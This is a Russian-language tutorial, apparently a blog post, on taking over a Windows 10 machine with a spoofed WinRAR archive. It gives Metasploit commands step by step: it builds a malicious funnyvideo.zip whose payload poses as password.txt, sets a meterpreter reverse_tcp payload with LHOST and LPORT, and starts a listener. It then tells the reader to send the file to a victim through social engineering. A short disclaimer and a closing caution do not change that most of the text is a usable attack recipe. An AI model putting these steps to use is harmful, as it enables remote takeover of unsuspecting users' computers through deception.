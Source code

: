 # Взлом Windows при помощи файла с текстом
Доброго времени суток! Сегодня расскажем о том, как получить доступ к любой системе, при помощи текстового файлы, архива и невнимательного пользователя.

**Дисклеймер. Автор статьи не несёт ответственности за действия, описываемые в данной статье. Всё что показано, сделано в сугубо образовательных целях. Делайте всё на свой страх и риск.**

### Как работает сам «взлом»?

Здесь используется уязвимость **winrar_name_spoofing** для нацеливания на Windows и создания обратной оболочки. Мы будем использовать эту уязвимость для эксплуатации компьютера с Windows 10, с помощью платформы Metasploit.

Будем создавать вредоносный ZIP-файл, а внутри zip-файла файл полезной нагрузки (вирус) будет скрыт в виде файла формата .txt

Когда наша жертва открывает этот файл, сеанс meterpreter будет установлен с атакующей машиной.
### Шаги по созданию полезной нагрузки

Шаг 1: Откройте терминал Kali Linux и запустите платформу [Metasploit,](https://vk.com/away.php?to=https%3A%2F%2Fen.wikipedia.org%2Fwiki%2FMetasploit_Project&cc_key=) используя следующую команду:
```msfconsole```
Шаг 2. После открытия **msfconsole** введите следующую команду, чтобы выбрать уязвимость **winrar_name_spoofing.**
```use exploit/windows/fileformat/winrar_name_spoofing```
Шаг 3: Теперь вы можете ввести команду **show options**, чтобы показать все доступные параметры, которые можно использовать:
```show options```
Шаг 4: Нам нужно установить имя вредоносного файла и имя поддельного файла, который будет скрыт внутри ZIP

Введите следующие команды:
```
set FILENAME funnyvideo.zip
set SPOOF password.txt
```
Шаг 5: Теперь нам нужно установить LHOST и LPORT в Metasploit. Поскольку мы используем эксплойт Windows в своей локальной сети (LAN), мы укажем свой локальный IP-адрес и LPORT как 4444.

Если бы вы использовали Ngrok или NOIP , вы бы использовали соответствующие IP-адреса.

Запустите команды
```
set LHOST 192.168.20.128
set LPORT 4444
```
Шаг 6: Теперь нужно установить «прослушку» для полезной нагрузки, для этого выполните следующую команду в терминале kali Linux:
```set payload windows/meterpreter/reverse_tcp```
Шаг 7: Теперь введите **exploit**, после чего файл с именем funnyvideo.zip будет создан в папке /root/.msf4/local/funnyvideo.zip.
Шаг 8: Скопируйте вредоносный файл и отправьте его жертве при помощи социальной инженерии.

### Смотрим результаты

Сейчас мы будем получать "обратку" от нашей полезной нагрузки Windows. Это поможет нам контролировать систему с помощью эксплойта Windows.

Шаг 1: Введите следующую команду, чтобы использовать обработчик Metasploit.
```use exploit/multi/handler```
Шаг 2: Теперь нам нужно установить полезную нагрузку, для этого нам нужно запустить следующую команду:
```set payload windows/meterpreter/reverse_tcp```
Шаг 3: Установите LHOST и LPORT. Обратите внимание, что они должны совпадать с созданным вами вредоносным файлом.

set LHOST 192.168.20.128
set PORT 4444

Шаг 4: Теперь введите exploit в терминале, и ваш эксплойт запустится.

exploit
Шаг 5: Вам просто нужно подождать, пока цель откроет файл, и вуаля, вы получили доступ в её систему.

Абсолютно никак не напрягаясь, мы можем получить доступ к реальной системе невнимательного пользователя. Даже современные операционные системы не дают такого уровня защиты, который бы полностью уберег конечного пользователя от вирусов и последующей скрытой слежки за ним. Главный антивирус сидит перед экраном монитора, поэтому важно с крайней осторожностью открывать незнакомые файлы
